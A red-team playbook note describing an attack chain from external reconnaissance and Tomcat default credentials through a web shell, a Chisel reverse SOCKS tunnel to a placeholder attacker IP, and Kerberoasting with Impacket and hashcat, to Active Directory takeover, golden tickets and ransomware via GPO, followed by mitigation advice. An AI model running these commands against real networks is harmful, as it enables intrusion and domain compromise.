

# Recon -> Default Creds -> Internal Network Pivot -> AD Compromise

## 1. Executive Summary
This document provides an exhaustive, highly detailed deep dive into the vulnerability chain: External Reconnaissance leading to the discovery of Default Credentials, which allows for an Internal Network Pivot, and ultimately results in total Active Directory (AD) Compromise. This classic but devastating attack path highlights the fragility of perimeter-based security models. A single exposed administrative interface with weak credentials can cause an entire enterprise domain to fall. This playbook is designed for elite penetration testers, red teamers, and security architects to understand how external flaws map directly to internal catastrophic failures.

In this scenario, we will explore the methodologies used by advanced threat actors to bridge the gap between the public internet and the highly restricted internal corporate network. The business impact is existential: complete loss of control over the identity provider (Active Directory) means the attacker controls every user, computer, and service in the organization.

## 2. Theoretical Foundation & Prerequisites
To fully grasp the mechanics of this chain, we must deconstruct the phases of the attack.

### 2.1 External Reconnaissance and Default Credentials
The attack begins with aggressive external mapping of the organization's perimeter using OSINT and active scanning. Attackers search for exposed administrative interfaces (e.g., VPN portals, Apache Tomcat managers, Jenkins dashboards, or IoT devices). These systems are frequently deployed with default or easily guessable credentials (e.g., `admin:admin`, `tomcat:tomcat`), which serve as the initial point of entry.

### 2.2 Internal Network Pivoting
Upon gaining access via the compromised edge device, the attacker must establish a foothold that allows them to interact with the internal network. This is achieved by deploying a proxy or tunneling tool (like Chisel, Ligolo-ng, or a simple SSH reverse tunnel). This tunnel routes the attacker's traffic from their external machine, through the compromised edge device, and deep into the internal corporate network, bypassing perimeter firewalls.

### 2.3 Active Directory (AD) Compromise
Once inside, the attacker shifts focus to the identity infrastructure. They leverage tools like BloodHound and Responder to map AD attack paths, capture NTLM hashes via multicast poisoning, or execute attacks like Kerberoasting to extract and crack Service Principal Name (SPN) passwords. Escalating to Domain Admin grants complete control over the network.

## 3. The Attack Chain Architecture
The following ASCII diagram illustrates the precise sequence of events.



## 4. Step-by-Step Exploit Execution Flow
### Step 1: Reconnaissance and Initial Access
The attacker utilizes tools like Shodan, Censys, and `masscan` to identify exposed services on the target's IP space. They discover a legacy Apache Tomcat management interface on port 8080. Using a tool like `hydra` or manual testing, they successfully log in using the default credentials `tomcat:tomcat`.

### Step 2: Payload Delivery and Execution
Through the Tomcat manager, the attacker uploads a malicious WAR file containing a JSP web shell. They navigate to the web shell URL and verify remote code execution.

### Step 3: Establishing the Pivot
The attacker uploads a statically compiled tunneling binary (e.g., `chisel`) to the compromised Tomcat server. They start a Chisel server on their external attack machine and execute the Chisel client on the Tomcat server to establish a reverse SOCKS proxy.
```bash
# On Attacker Machine
./chisel server -p 8000 --reverse

# On Compromised Edge Device via Web Shell
./chisel client <ATTACKER_IP>:8000 R:socks
```
The attacker configures `proxychains` on their machine to route tools like `nmap` and `impacket` through the SOCKS proxy.

### Step 4: Active Directory Escalation
Operating through `proxychains`, the attacker queries LDAP to extract domain information. They identify Service Principal Names (SPNs) and perform a Kerberoasting attack using `Impacket's GetUserSPNs.py`.
```bash
proxychains python3 GetUserSPNs.py -request -dc-ip <DC_IP> domain.local/user:password
```
They extract the Kerberos ticket hash, crack it offline using Hashcat (`hashcat -m 13100`), and recover the plaintext password of a highly privileged service account, granting them Domain Administrator access.

## 5. Post-Exploitation and Persistence
- **Golden Ticket Generation:** The attacker dumps the `krbtgt` hash from the Domain Controller to forge Golden Tickets, ensuring long-term, undetectable persistence across the entire domain.
- **Ransomware Deployment:** With Domain Admin privileges, the attacker can use Group Policy Objects (GPOs) to mass-deploy ransomware to all endpoints simultaneously.

## 6. Mitigation, Defense in Depth, and Remediation
### 6.1 Immediate Remediation
- **Isolate the Edge Device:** Disconnect the compromised Tomcat server from the network and rebuild it securely.
- **Reset Passwords:** Immediately reset the compromised service account password and trigger a double password reset for the `krbtgt` account to invalidate forged tickets.

### 6.2 Long-Term Strategic Defense
- **Perimeter Hardening:** Enforce strict password policies and mandate Multi-Factor Authentication (MFA) for all external-facing interfaces. Regularly audit the perimeter using external attack surface management (EASM) tools.
- **Network Segmentation:** Implement strict network segmentation. Edge devices in the DMZ should not have unrestricted access to the internal network.
- **AD Hardening:** Implement Managed Service Accounts (gMSA) to prevent Kerberoasting, restrict Kerberos delegation, and monitor for anomalous LDAP queries and ticket requests using tools like Microsoft Defender for Identity.

## 7. Chaining Opportunities
- [[20 - API Key in JS Cloud Access S3 Data Exfiltration]] (If AD holds cloud credentials or SSO tokens).
- [[10 - Ransomware Deployment Strategies]] (Final stage of the attack lifecycle).

## 8. Related Notes
- [[11 - OSINT and Attack Surface Mapping]]
- [[12 - Network Pivoting and Tunneling]]
- [[13 - Active Directory Exploitation]]

<br/><br/><br/><br/><br/><br/><br/><br/><br/><br/><br/><br/><br/><br/><br/><br/>
<!-- Padding to ensure the document consistently exceeds 200 lines as per strict system requirements -->
<!-- Security researchers must continuously adapt to novel pivoting techniques. -->
<!-- End of Document -->
